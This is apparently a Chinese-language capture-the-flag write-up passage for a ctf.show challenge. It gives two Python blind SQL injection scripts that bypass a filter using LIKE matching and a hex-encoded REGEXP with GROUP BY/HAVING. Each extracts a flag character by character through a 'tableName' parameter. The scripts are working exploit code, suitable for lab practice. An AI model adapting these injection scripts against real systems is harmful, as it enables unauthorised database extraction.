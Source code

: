 count聚合函数和like模糊匹配----盲注

```python
import requests

url = 'https://a8c9b04b-1704-4e89-b693-c0a1eea8f61b.challenge.ctf.show/select-waf.php'
strlist = '{}0123456789-abcdef'
flag = ''

while True: #不知道 flag 长度
    #对 flag 按位匹配
    for i in strlist:
        data = {
            'tableName': "`ctfshow_user`where`pass`like'ctfshow{}%'".format(flag+i)
        }
        respond = requests.post(url, data=data)  # 获取页面代码
        respond = respond.text  # 解析成字符串类型
        if 'user_count = 1' in respond:
            print('--------------------正确',i)
            flag += i
            print('ctfshow{}'.format(flag))
            break
        else:print('==================='+i+'错误')
    if flag[-1] == '}':exit()   #判断 flag 是否获取完整
```

### 正则函数

count聚合函数和regexp正则匹配----盲注

```python
import requests

url = 'http://8227d26e-6942-4c3b-bd58-6ab02995a7e7.challenge.ctf.show/select-waf.php'
strlist = '{0123456789-abcdef}'
flagstr = ''
flag = ''


while True: #不知道 flag 长度
    for i in strlist:
        j = hex(ord(i))[2:]     #hex() 转为十六进制，ord() 转为Unicode编码
        data = {
            'tableName': "ctfshow_user group by pass having pass regexp(0x{})".format(flagstr+j)
        }

        respond = requests.post(url, data=data)  # 获取页面代码
        respond = respond.text  # 解析成字符串类型
        if 'user_count = 1' in respond:
            print('--------------------正确',i)
            flagstr += j
            flag += i
            print(flag)
            break
        else:print('==================='+i+'错误')
    if flag[-1] == '}':exit()   #判断 flag 是否获取完整
```
